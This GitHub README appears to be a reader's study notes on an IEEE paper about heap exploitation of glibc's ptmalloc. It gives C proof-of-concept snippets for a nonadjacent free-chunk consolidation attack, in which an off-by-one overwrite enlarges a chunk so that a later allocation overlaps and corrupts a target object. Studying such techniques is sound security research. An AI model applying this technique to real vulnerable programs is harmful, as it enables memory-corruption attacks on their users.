





# New Exploit Methods against Ptmalloc of GLIBC

The code and content is obtained from [New Exploit Methods against Ptmalloc of GLIBC](http://ieeexplore.ieee.org/document/7847004/)

This repo is the note I made while read through the paper and run the examples with GDB.

To compile as the example on the paper, we can

```C++
gcc *.c -fpie -pie
```

From the paper: 

The object V represents the vulnerable object and
the object T represents the hypothesized target object. We
prove the success of attack by corrupting the contents of T.

# Code 4: Nonadjacent Free Chunk Consolidation Attack

use [consol_poc1.c](consol_poc1.c)


```C++
void *V = malloc(0x18); // vulnerable object
void *A = malloc(0xf0); // chunk size 0x100, not fastbin
char *T = (char*)malloc(0x10); // target
void *B = malloc(0xf0); // chunk size 0x100, not fastbin
```


```C++
free(B);
```


```C++
memcpy(V, "AAAAAAAAAAAAAAAAAAAAAAAA\x21",0x19); // off-by-one, enlarge sizeof A to 0x120
```

```C++
free(A); // force nonadjacent consolidation with B
char *C = (char*)malloc(0x110); // malloc C, overlapping T
```

```C++
strcpy(C+0x100, "Corrupted!");
```

